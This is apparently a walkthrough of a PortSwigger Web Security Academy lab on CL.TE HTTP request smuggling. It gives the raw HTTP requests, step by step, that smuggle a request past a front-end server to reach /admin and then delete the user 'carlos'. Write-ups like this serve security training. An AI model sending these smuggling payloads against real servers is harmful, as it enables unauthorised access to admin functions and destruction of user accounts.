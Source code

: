 # Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## Reproduction and proof of concept

1. Try to visit ``/admin`` and observe that the request is blocked.
2. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

3. Observe that the merged request to ``/admin`` was rejected due to not using the header ``Host: localhost``.
4. Issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```

5. Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.
6. Issue the following request twice so the second request's headers are appended to the smuggled request body instead:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

7. Observe that you can now access the admin panel.
8. Using the previous response as a reference, change the smuggled request URL to delete the user ``carlos``:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

## Exploitability

An attacker will need to smuggle a request to the back-end server that accesses the `admin` panel and deletes the user `carlos`. This lab is divided in two parts. In the first part the goal is to access the ``/admin`` page, in the second part the goal is to delete a user. So two different requests must be sent.
